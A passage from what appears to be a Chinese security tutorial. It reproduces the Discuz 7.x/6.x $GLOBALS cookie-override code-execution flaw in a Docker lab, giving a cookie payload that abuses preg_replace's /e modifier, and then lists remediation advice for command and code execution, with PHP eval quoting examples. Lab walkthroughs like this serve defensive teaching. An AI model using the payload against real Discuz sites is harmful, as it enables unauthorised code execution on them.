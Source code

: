 ### 2.2.3 Discuz 7.x/6.x 全局变量防御绕过导致代码执行
由于php5.3.x版本里php.ini的设置里request_order默认值为GP，导致$_REQUEST中不再包含$_COOKIE，我们通过在Cookie中传入$GLOBALS来覆盖全局变量，造成代码执行漏洞。
```
cd discuz/wooyun-2010-080723/    进到靶机环境目录
service docker start    启动docker
docker-compose up -d    构建环境
```
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\IPOi3H4ZdNgcZ2Io.png)
启动好后，访问[http://your-ip:8080/install/](http://your-ip:8080/install/)来安装discuz
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\g2kDwiUR4X0MCMlE.png)
数据库地址填写db，数据库名为discuz，数据库账号密码均为root
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\YYPBihROEbcafiVd.png)
安装好后随便访问个帖子，并抓包。
把cookie进行替换
```
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
```
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\HnxCrDDAvqc8YwM6.png)

# 3. 修复方案
## 3.1 命令执行修复方案
### 3.1.1 尽量少用执行命令的函数或者直接禁用
### 3.1.2 参数值尽量使用引号包括
### 3.1.3 在使用动态函数之前，确保使用的函数是指定的函数之一
### 3.1.4 在进入执行命令的函数/方法之前，对参数进行过滤，对敏感字符进行转义
### 3.1.5 能使用脚本解决的工作，不要调用其他程序处理。尽量少用执行命令的函数，并在disable_functions中禁用
### 3.1.6 对于可控点是程序参数的情况下，使用escapeshellcmd函数进行过滤，对于可控点是程序参数值的情况下，使用escapeshellarg函数进行过滤
### 3.1.7 参数的值尽量使用引号包裹，并在拼接前调用addslashes进行转义
### 3.1.8 对由特定第三方组件引发的漏洞，我们要做的就是及时打补丁，修改安装时的默认配置。

## 3.2 代码执行修复方案
### 3.2.1 能使用json 保存数组、对象就使用json，不要将php对象保存成字符串，否则读取的时候需要使用eval。将字符串转化为对象的过程其实是将数据转化为代码的过程，这个过程很容易出现漏洞，像php的unserialize 导致代码执行、struts2的ognl 命令执行等漏洞都是这个过程导致的。
### 3.2.2 对于必须使用eval 的情况，一定要保证用户不能轻易接触eval 的参数（或用正则严格判断输入的数据格式）。对于字符串，一定要使用单引号包裹可控代码，并再插入前进行addslashes，这样就无法闭合单引号，又因为不是双引号包裹，故不能执行 ${} 。
evil('${phpinfo()}')、evil("phpinfo()") 等都不会执行， evil("${phpinfo()}")、evil(phpinfo())、evil(${@phpinfo()}) 都可以执行，因为双引号里面内容会被当作变量解析一次，函数前加 @ 表示执行函数时不报错。
$data = addslashes($data);eval("\$data = deal('$data');");
### 3.2.3 放弃使用preg_replace 的e修饰符，而换用 preg_replace_callback 替代。如果非要使用preg_replace的e模式的话，请保证第二个参数中，对于正则匹配出的对象，用单引号包裹。
### 3.2.4 确保register_globals = off, 若不能自定义php.ini，则应该在代码中控制；其次，熟悉可能造成变量覆盖的函数和方法，检查用户是否能控制变量的来源；最后，养成初始化变量的好习惯。
### 3.2.5 能够往本地写入的函数都需要重点关注，如 file_put_contents(), fwrite(), fputs() 等。
